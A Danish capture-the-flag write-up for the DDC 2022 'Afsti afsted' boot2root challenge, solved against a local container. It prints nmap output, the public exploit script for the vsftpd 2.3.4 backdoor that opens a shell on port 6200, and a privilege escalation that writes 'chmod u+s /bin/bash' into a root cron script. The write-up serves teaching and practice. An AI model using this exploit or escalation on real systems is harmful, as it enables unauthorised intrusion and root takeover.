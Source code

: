```yaml
---
layout: post
title:  "DDC 2022 'afstiafsted' Writeup"
date:   2022-05-07 16:17:42 +0200
categories: writeups
---
```

# Afsti afsted
Dette er mit writeup for Afsti afsted, en challenge som jeg havde til hensigt skulle være nem, men endnu engang i år kom jeg til at fejlvurdere hvad der er `nemt` og hver der nok er nærmere `medium-svært`. 

Det er ikke min hensigt at fucke med nogens opfattelse af hvad de kan, sorry for den dårlige sværhedsgrads-labeling :-(

(I dette writeup løser jeg opgaven fra en lokalt kørende container, derfor vil du se `localhost` i stedet for `afsti-afsted.hkn` på screenshots)

Ihvertfald er `Afsti Afsted` en `boot2root` challenge hvor hensigten er at udnytte en bagdør i `vsftpd 2.3.4` og privesc ved at skrive til et world writeable script som kører som root via `cron` hver minut.

Uanset hvilken opgave du laver, er der altid en god idé at starte med et nmap.

```bash
root@d993e6b1ec7c:/tmp# nmap 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 19:22 UTC
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
2100/tcp open  amiganetfs
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds
```

Hvilket viser en eller anden port på `2100` åben, man kan ikke stole på at det er `amiganetfs` så lad os prøve at tjekke om vi kan finde ud af hvad det er:

```bash
root@d993e6b1ec7c:/tmp# nmap -sC -sV -p 2100 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 19:23 UTC
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).

PORT     STATE SERVICE VERSION
2100/tcp open  ftp     vsftpd 2.3.4
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    1 1000     1000         4096 May 04 18:41 pub
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 172.17.0.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.45 seconds
```

Ok sick nok, vi kan se at `vsftpd 2.3.4` kører. lad os lige prøve at hurtigt google den.




![vsftpd](/assets/vsftpdbackdoor.jpg)


ok det virker som om der er en bagdør i den her version, hvis vi læser lidt på nr 2 link, så kan vi se hvad det går ud på. Scriptet fra exploit-db ser således ud.

```python

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
```

Ok hvis vi læser det, så sender det bare strengen `nergal:)` som bruger og `pass` som password.

Dette åbner så en bagdør på port 6200 som vi bare kan forbinde til. Du ville kunne bruge scriptet fra ovenover hvis du ændrer porten fra `21` til `2100` 

Jeg valgte dog bare at gøre det manuelt


sry for at have sagt det her er nemt, det er min fejl :(

![vsftpd](/assets/ftpconnect.jpg)

Som du kan se på ovenstående screenshot så forbinder jeg bare med ovenstående info, og så netcatter jeg til port 6200 og har så bruger på maskinen.

Nu kan man køre nogle privesc scripts, jeg kan godt lide linpeas https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Hvilket viser der er et script `/opt/cleanlogs.sh` som vi har `write access` til..

Det lyder som et script der kører automatisk, lad os prøve at skrive til det.

```
echo "chmod u+s /bin/bash" > /opt/cleanlogs.sh
```
fordi vi kan bruge gtfobins https://gtfobins.github.io/gtfobins/bash/

og så vente lidt tid.

....

...

og så skrive `/bin/bash -p`

og vi kan finde flaget

![vsftpd](/assets/privesc2.jpg)
